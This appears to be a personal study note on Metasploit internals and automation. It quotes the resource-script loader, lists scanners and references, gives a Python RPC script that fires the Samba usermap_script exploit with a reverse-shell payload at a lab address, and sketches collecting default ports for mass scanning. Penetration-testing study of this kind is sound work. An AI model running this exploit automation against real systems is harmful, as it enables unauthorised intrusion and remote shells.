 ```yaml
---
title: Metasploit scripting and more
created: '2024-03-31T04:25:36.000Z'
modified: '2024-05-30T07:07:43.504Z'
---
```


# Metasploit scripting and more

the way metasploit loads resource script:

```ruby
# file: lib/msf/base/sessions/command_shell.rb
  def execute_file(full_path, args)
    if File.extname(full_path) == '.rb'
      Rex::Script::Shell.new(self, full_path).run(args)
    else
      load_resource(full_path)
    end
  end

```

the parsing:

```ruby
# file: lib/rex/ui/text/resource.rb

# -*- coding: binary -*-
require 'erb'

module Rex
module Ui
module Text

module Resource

  # Processes a resource script file for the console.
  #
  # @param path [String] Path to a resource file to run
  # @return [void]
  def load_resource(path)
    if path == '-'
      resource_file = $stdin.read
      path = 'stdin'
    elsif ::File.exist?(path)
      resource_file = ::File.read(path)
    else
      print_error("Cannot find resource script: #{path}")
      return
    end

    # Process ERB directives first
    print_status "Processing #{path} for ERB directives."
    erb = ERB.new(resource_file)
    processed_resource = erb.result(binding)

    lines = processed_resource.each_line.to_a
    bindings = {}
    while lines.length > 0

      line = lines.shift
      break if not line
      line.strip!
      next if line.length == 0
      next if line =~ /^#/

      # Pretty soon, this is going to need an XML parser :)
      # TODO: case matters for the tag and for binding names
      if line =~ /<ruby/
        if line =~ /\s+binding=(?:'(\w+)'|"(\w+)")(>|\s+)/
          bin = ($~[1] || $~[2])
          bindings[bin] = binding unless bindings.has_key? bin
          bin = bindings[bin]
        else
          bin = binding
        end
        buff = ''
        while lines.length > 0
          line = lines.shift
          break if not line
          break if line =~ /<\/ruby>/
          buff << line
        end
        if ! buff.empty?
          print_status("resource (#{path})> Ruby Code (#{buff.length} bytes)")
          begin
            eval(buff, bin)
          rescue ::Interrupt
            raise $!
          rescue ::Exception => e
            print_error("resource (#{path})> Ruby Error: #{e.class} #{e} #{e.backtrace}")
          end
        end
      else
        print_line("resource (#{path})> #{line}")
        run_single(line)
      end
    end
  end

end

end
end
end

```

---

vulnerability scanners:

https://dradis.com/ce/

nessus

nexpose

openvas

---

[metasploit-framework](https://rubygems.org/gems/metasploit-framework) is a ruby gem.

---

https://www.infosecmatter.com/metasploit-module-library/

https://rubyfu.net/module-0x5-or-exploitation-kung-fu/metasploit/auxiliary-module

---

[mad-metasploit](https://github.com/hahwul/mad-metasploit) custom metasploit scripts

---

[metasploit unleashed](https://www.offsec.com/metasploit-unleashed/)

[official metasploit documentation](https://docs.metasploit.com/)

---

metasploit has enabled ssl by default. http will not work.

install package:

```bash
pip3 install pymetasploit3
```

launch metasploit background rpc service:
```bash
# get help
msfrpcd -h
# start background service
msfrpcd -P lazero
# or if you want foreground service
msfrpcd -P lazero -f
```


run script:

```python
from pymetasploit3.msfrpc import MsfRpcClient
import os

PWD = "lazero"

custom_module_path = "custom_msf_module"
assert os.path.exists(custom_module_path), (
    "Custom module path not found at: '%s'" % custom_module_path
)

# write custom python modules with:
# https://docs.metasploit.com/docs/development/developing-modules/external-modules/writing-external-python-modules.html


client = MsfRpcClient(
    password=PWD, ssl=True
)  # requires ssl by default. otherwise won't work

# the module structure must be identical to the one at , otherwise it will not load.
client.core.addmodulepath(os.path.abspath(custom_module_path))

exploit_id = "multi/samba/usermap_script"
exp_mod = client.modules.use("exploit", exploit_id)

RHOST = "172.16.194.172"
LHOST = "172.16.194.163"

exp_mod.runoptions["RHOST"] = RHOST  # this host is not running.
exp_mod.runoptions["PAYLOAD"] = "cmd/unix/reverse"
exp_mod.runoptions["LHOST"] = LHOST

msf_console = (
    client.consoles.console()
)  # you can manually read/write instead of using below method.
# timeout: 301 seconds.
exploit_run_output = msf_console.run_module_with_output(exp_mod)  # str
print(exploit_run_output)  # now have output. but still it is not streaming.
# you may want to overwrite the original implementation. the data is actually produced step by step.

run_output_file = "samba_usermap_script_output.log"
with open(run_output_file, "w+") as f:
    f.write(exploit_run_output)
print("[metasploit]", "output file saved at:", run_output_file)
# thank you very much.

```

---

To do mass scanning, first we need to obtain the default RPORT for each exploit.

```python
module_types = ['exploits','auxiliary', "encoders", "nops", "payloads", 'post']

for mt_plural in module_types:
    module_type = mt_plural.rstrip('s')
    for name in all_module_names:
        mod = client.modules.use(module_type, name)
        # get default RPORT
        default_rport = mod.runoptions.get("RPORT", None)
```
